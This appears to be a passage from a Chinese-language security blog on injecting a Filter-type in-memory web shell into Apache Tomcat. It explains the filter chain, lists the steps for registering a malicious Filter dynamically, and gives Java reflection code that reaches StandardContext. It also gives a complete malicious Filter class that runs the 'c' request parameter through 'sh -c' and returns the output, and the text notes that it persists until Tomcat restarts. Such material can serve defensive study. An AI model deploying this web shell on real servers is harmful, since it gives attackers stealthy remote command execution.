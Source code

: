 0x04 Filter 型内存马注入
------------------

### 0x0401 动态创建 Filter

我们调试一下 filterChain.doFilter() 方法，启动服务，然后访问`/hello`即可调试：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUs5ibSqEU55UP8wbeIekaia76Ah1ibbftxbGUdHiauNvkPakXXeoliaXTIHhg/640?wx_fmt=png)

继续跟进，可以看到`doFilter()` 的具体处理过程是在`internalDoFilter()`

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUsBoxvDP0lWxpKhaUeNuNX63lsX03GOP0yS1VWGibZ4ibmAdmGWFmicoYicQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUsyBFTIOGMj1tgo4Zxb9O4s2yDJ8qDLxc3teEUKMZCaLtXibTwCZCALzQ/640?wx_fmt=png)

然后最后调用`service()`方法去调用这个 filter 里面的内容

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUsHicsQ4EibSk5NZBfTlCZHRkoVrVAne13fN25d2f6C5bF7zejZr7j6Bkw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08rPmDpsAPc6nV9icBib7HBUs4ic3PiawufEPKKN6Lem4BxybKY4Y86Jkv8sz2A0L0lsBnNxicnTQBS3Hw/640?wx_fmt=png)

概述地说， `FilterChain.doFilter()` 方法将调用下一个 Filter.doFilter() 方法；最后一个 `Filter.doFilter()` 方法中调用的`FilterChain.doFilter()` 方法将调用目标 `Servlet.service()` 方法。

### 0x0402 一个简单 Filter 内存马案例

上面的描述总结下来就是如何在 tomcat 中动态的注入一条配置项和代码，拿 filter 类型举例子，那么我们如何创建一个 Filter 类型的内存马呢？

1.  首先创建一个恶意 Filter
    
2.  利用 FilterDef 对 Filter 进行一个封装
    
3.  将 FilterDef 添加到 FilterDefs 和 FilterConfig
    
4.  创建 FilterMap ，将我们的 Filter 和 urlpattern 相对应，存放到 filterMaps 中（由于 Filter 生效会有一个先后顺序，所以我们一般都是放在最前面，让我们的 Filter 最先触发）
    

```
ServletContext servletContext = request.getSession().getServletContext();    Field appctx = servletContext.getClass().getDeclaredField("context");    appctx.setAccessible(true);        // ApplicationContext 为 ServletContext 的实现类    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    Field stdctx = applicationContext.getClass().getDeclaredField("context");    stdctx.setAccessible(true);        // 这样我们就获取到了 context     StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

每次请求 createFilterChain 都会依据此动态生成一个过滤链，而 StandardContext 又会一直保留到 Tomcat 生命周期结束，所以我们的内存马就可以一直驻留下去，直到 Tomcat 重启。

好的 那我们首先来编写一个 filter 的恶意类

```
package com.evalshell.Filter;import javax.servlet.*;import javax.servlet.http.HttpServletRequest;import java.io.IOException;import java.io.InputStream;import java.util.Scanner;public class MyFilter implements Filter {    @Override    public void init(FilterConfig filterConfig) throws ServletException {        System.out.println("Filter 创建");    }    @Override    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {        System.out.println("执行过滤过程");        //测试只考虑linux环境下        HttpServletRequest request = (HttpServletRequest) servletRequest;        if (request.getParameter("c") != null){            String[]  command = new String[]{"sh", "-c", request.getParameter("c")};            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();            Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");            String output = scanner.hasNext() ? scanner.next() : "";            servletResponse.getWriter().write(output);            servletResponse.getWriter().flush();            return;        }        filterChain.doFilter(servletRequest, servletResponse);    }    @Override    public void destroy() {        System.out.println("销毁！");    }}
```
